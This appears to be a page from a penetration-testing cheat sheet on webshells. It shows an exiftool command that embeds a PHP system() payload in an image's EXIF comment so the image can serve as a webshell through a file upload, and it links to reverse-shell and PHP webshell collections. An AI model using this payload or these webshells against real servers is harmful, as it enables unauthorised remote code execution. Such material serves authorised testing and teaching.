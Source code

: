 ```




<!--- category: Webshell --->
<!--- id: imgwebshell --->
<!--- title: File upload Webshell : Exif datas --->
<!--- keywords:  --->
## File upload Webshell : Exif datas

An image file contains a lot of information: shooting date, location, camera type...<br/>
We can inject php code in this data.
```
exiftool -Comment&equals;'&lt?php system('id'); ?>' webshell.jpg
```




<!--- category: Webshell --->
<!--- id: payloadallthethings --->
<!--- title: References: PayloadAllTheThings and PentestMonkey --->
<!--- keywords:  --->
## References: PayloadAllTheThings and PentestMonkey

You want to know more ?<br/>
Some webshells
```
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
```

Pure php Webshell: <a href=php-reverse-shell.php.txt>php-reverse-shell.php</a>
```
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
```

Yop Webshell: <a href=yopwebshell.php.txt>yopwebshell.php</a><br/>
Yolo Webshell: <a href=yolowebshell.php.txt>yolowebshell.php</a>

